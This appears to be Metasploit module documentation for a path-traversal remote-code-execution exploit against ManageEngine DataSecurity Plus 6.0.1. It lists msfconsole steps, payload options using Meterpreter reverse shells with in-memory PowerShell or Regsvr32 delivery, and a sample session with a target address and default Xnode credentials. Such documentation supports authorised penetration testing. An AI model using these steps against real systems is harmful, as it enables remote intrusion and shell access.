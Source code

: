 ## Verification Steps
1. Start msfconsole
2. Do: `use exploit/windows/http/manageengine_datasecurity_plus_traversal_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `exploit`

## Options
### CUSTOM_PAYLOAD
Enable use of payloads other than `windows/x64/meterpreter/reverse_*`.
This option is disabled by default because during testing only `windows/x64/meterpreter/reverse_*` payloads resulted in a shell.
### RESTORE_SCHEMA_DIR
Upon successful exploitation, repopulate `<install_dir>\apps\dataengine-xnode\conf\datarepository\schema` with the default JSON files
### WEB_DELIVERY_VIA_PSH
If enabled (default), the module will use only Powershell (in memory) to deliver the payload.
If disabled, the Regsvr32 web delivery method is used.

## Scenarios
### ManageEngine DataSecurity Plus 6.0.1 (6010) on Windows Server 2012 - WEB_DELIVERY_VIA_PSH => true
```
msf6 > use exploit/windows/http/manageengine_datasecurity_plus_traversal_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > set rhosts 192.168.1.225
rhosts => 192.168.1.225
msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > options 

Module options (exploit/windows/http/manageengine_datasecurity_plus_traversal_rce):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   CUSTOM_PAYLOAD        false            no        Enable use of payloads other than windows/x64/meterpreter/reverse_*
   PASSWORD              chegan           yes       Password used to authenticate to the Xnode server
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RESTORE_SCHEMA_DIR    true             no        Upon successful exploitation, repopulate <datasecurity_install_dir>\apps\dataengine-xnode\conf\datarepository\schema with the default JSON files
   RHOSTS                192.168.1.225    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 8800             yes       The target port (TCP)
   SRVHOST               0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT               8080             yes       The local port to listen on.
   SSL                   false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                no        The URI to use for this exploit (default is random)
   USERNAME              atom             yes       Username used to authenticate to the Xnode server
   VHOST                                  no        HTTP server virtual host
   WEB_DELIVERY_VIA_PSH  true             yes       If enabled (default), the module will use only Powershell (in memory) to deliver the payload. If disabled, the Regsvr32 web delivery method is used
   XNODE_PORT            29119            yes       The Xnode port
```